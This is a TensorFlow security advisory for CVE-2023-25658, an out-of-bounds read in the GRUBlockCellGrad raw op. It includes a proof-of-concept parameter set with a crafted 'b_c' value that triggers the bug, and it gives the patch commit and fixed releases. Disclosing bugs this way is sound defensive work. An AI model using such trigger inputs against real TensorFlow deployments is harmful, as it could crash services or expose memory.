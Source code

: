 ## TFSA-2023-020: OOB Read in GRUBlockCellGrad

### CVE Number
CVE-2023-25658

### Impact
Out of bounds read in GRUBlockCellGrad
```python
func = tf.raw_ops.GRUBlockCellGrad

para = {'x': [[21.1, 156.2], [83.3, 115.4]], 'h_prev': array([[136.5],
      [136.6]]), 'w_ru': array([[26.7,  0.8],
      [47.9, 26.1],
      [26.2, 26.3]]), 'w_c': array([[ 0.4],
      [31.5],
      [ 0.6]]), 'b_ru': array([0.1, 0.2 ], dtype=float32), 'b_c': 0x41414141, 'r': array([[0.3],
      [0.4]], dtype=float32), 'u': array([[5.7],
      [5.8]]), 'c': array([[52.9],
      [53.1]]), 'd_h': array([[172.2],
      [188.3 ]])}
```

### Patches
We have patched the issue in GitHub commit [ff459137c2716a2a60f7d441b855fcb466d778cb](https://github.com/tensorflow/tensorflow/commit/ff459137c2716a2a60f7d441b855fcb466d778cb).

The fix will be included in TensorFlow 2.12.0. We will also cherrypick this commit on TensorFlow 2.11.1


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by r3pwnx.
